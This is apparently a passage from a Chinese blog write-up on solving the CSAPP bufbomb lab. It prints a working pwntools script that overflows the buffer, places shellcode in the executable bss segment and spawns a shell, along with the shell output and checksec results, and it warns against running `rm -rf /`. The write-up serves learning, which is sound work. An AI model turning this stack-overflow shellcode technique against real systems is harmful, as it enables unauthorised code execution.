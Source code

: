 成功得到主机的shell。啥？你说不知道我在干嘛？还不知道这能干嘛？你可以敲一条你知道的Linux命令试试。

!!! danger
    你已经得到了目标主机的shell，请不要在真机上或是没有打快照的虚拟机上运行类似`rm -rf /`的命令！这在没有`--no-preserve-root`参数之类的系统上将造成严重问题。

有关详细信息，请参考：[基本 ROP - ret2shellcode](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/basic-rop/#ret2shellcode)

本菜鸡就不在这边现学现卖了...

#### 更新
大佬：

> 甚至不用关aslr就可以得到一个shell，有空再整

好，膜。（两分钟后）大佬：

> 突然想起来它`bss`应该也是可执行的，只要把shellcode写到`bss`就行了，不用那么麻烦

有道理。搞起：

``` python
from pwn import *

p = process(argv=['/home/domain/Documents/SZU/CSAPP/4/bufbomb', '-n', '-t', 'domain'])
print(p.recv())
address = 0x080489C0
payload = 'a' * 0x20c + p32(address) + p32(0x0804A200 + 0x160) + p32(0x0804A200 + 0x160)
p.sendline(payload)
p.sendline(asm(shellcraft.sh()))
p.interactive()

```

确实不需要关闭地址随机化也成功了：

```
/home/domain/IdeaProjects/pwntools/venv/bin/python /home/domain/IdeaProjects/pwntools/main.py
[x] Starting local process '/home/domain/Documents/SZU/CSAPP/4/bufbomb'
[+] Starting local process '/home/domain/Documents/SZU/CSAPP/4/bufbomb': pid 5702
Team: domain
Cookie: 0x6dfd74c3

[*] Switching to interactive mode
ls
main.py  pwntools.iml  venv

```

## 环境说明
+ 不用说，肯定有IDA。
+ pwntools，在Linux下很方便，我在IntelliJ IDEA（或者PyCharm）里写也很舒服。对于Windows，别忘了有WSL，你可以参考我的过往的文章来部署pwntools。

另外：

```
domain@linux-521z:~/IdeaProjects/pwntools> ./venv/bin/checksec ~/Documents/SZU/CSAPP/4/bufbomb
[*] '/home/domain/Documents/SZU/CSAPP/4/bufbomb'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

```
